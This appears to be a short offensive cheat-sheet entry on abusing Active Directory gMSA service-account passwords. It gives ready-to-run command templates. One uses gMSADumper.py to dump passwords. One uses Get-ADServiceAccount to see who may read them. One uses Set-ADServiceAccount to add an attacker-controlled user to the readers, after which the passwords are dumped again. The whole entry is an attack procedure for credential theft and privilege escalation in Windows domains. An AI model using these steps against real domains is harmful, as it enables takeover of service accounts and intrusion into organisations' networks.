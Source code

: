 # gMSA Passwords:

Find users controled by gMSA Passwords (externaly from your machine), it also check users who can revel the passwords.

`gMSADumper.py -u <user you control> -p <password> -d <domain>`

If you have access to a internal powershell session (evil-winrm, for example) you can also check this information for a particular user:

`Get-ADServiceAccount -Identity <user controlled by gMSA Passwords> -Properties PrincipalsAllowedToRetrieveManagedPassword`

In case you have access, and permisions inside powershell session you can include yourself into the list of users who can revel the passwords:

`Set-ADServiceAccount -Identity <user controlled by gMSA Passwords> -PrincipalsAllowedToRetrieveManagedPassword <user you control>`

Then try to retrive passwords again with gMSADumper.py.
